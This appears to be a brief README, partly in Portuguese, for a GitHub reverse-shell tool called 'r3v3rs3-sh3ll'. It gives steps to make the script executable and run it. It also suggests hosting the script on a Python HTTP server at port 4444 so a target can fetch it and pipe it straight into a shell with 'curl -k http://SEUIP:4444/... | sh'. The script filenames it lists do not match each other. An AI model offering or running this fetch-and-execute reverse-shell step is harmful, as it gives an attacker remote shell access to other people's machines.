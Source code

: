 # r3v3rs3-sh3ll

Reverse shell.



- chmod +x r33rs3-sh3ll.sh.sh
- ./r3v3rs3-sh3ll.sh

pode ser utilizo levantando um servidor python e chamando com curl

- python3 -m http.server 4444

- curl -k http://SEUIP:4444/r33rs3-sh3ll.sh.sh | sh

![image](https://github.com/carlosalbertotuma/r3v3rs3-sh3ll/assets/13341724/f3c14b08-f455-4b99-ade3-c73364fbbea1)
